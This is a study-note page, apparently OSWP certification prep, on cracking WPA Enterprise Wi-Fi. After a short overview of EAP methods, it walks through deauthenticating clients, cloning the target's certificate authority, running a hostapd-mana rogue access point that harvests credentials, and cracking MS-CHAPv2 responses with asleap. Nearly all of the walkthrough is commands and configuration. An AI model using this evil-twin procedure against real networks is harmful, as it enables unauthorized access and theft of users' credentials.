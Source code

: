 ```yaml
---
{"dg-publish":true,"permalink":"/OSWP/g. Enterprise Cracking/"}
---
```


-------------
### Theory
- Authentication is done using a RADIUS server
- EAP frames are relayed from AP to RADIUS, if successful a PMK is used in a 4-way handshake
- Authentication methods:
	- EAP-TLS
		- One of the most secure
		- Certificates on both server and client side
	- EAP-TTLS
		- Does not necessarily need client certificates
		- Creates a tunnel to exchange credentials using different inner/phase2 methods
			- Challenge-Handshake Authentication Protocol (CHAP)
			- Authentication Protocol (PAP)
			- Microsoft CHAP (MS-CHAP)
			- MS-CHAPv2
	- PEAP
		- TLS tunnel with most commonly MS-CHAPv2
- AUTH: MGT means WPA Enterprise

### Walkthrough:
1. Generate/validate certificate:
```
openssl x509 -in <name.crt/pem> -noout -enddate
```
2. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
3. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
4. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
5. Open capture in Wireshark and filter for:
```
tls.handshake.certificate
```
6. _Extensible Authentication Protocol_ > _Transport Layer Security_
7. Find the certificates and right-click for "Export Packet Bytes"
8. Convert the .der into a .crt:
```
openssl x509 -inform der -in <file.der> -outform pem -out <file.crt>
```
9. Edit [certificate_authority] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/ca.cnf
```
Example:
```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```
10. Edit [server] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/server.cnf
```
Example:
```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```
11. Delete the diffie-hellman file and any previous certs and make the cert:
```
make destroycerts
sudo rm /etc/freeradius/3.0/certs/dh
make
```
12. Generate the mana.conf file and set SSID:
```
# SSID of the AP
ssid=<ssid-name>

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
13. Create the EAP user file referenced in the conf-file:
```
sudo nano /etc/hostapd-mana/mana.eap_user
```
Paste:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
14. Start hostapd-mana with the conf-file:
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
15. Catch credentials in: /tmp/hostapd.credout
16. Crack with asleap:
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```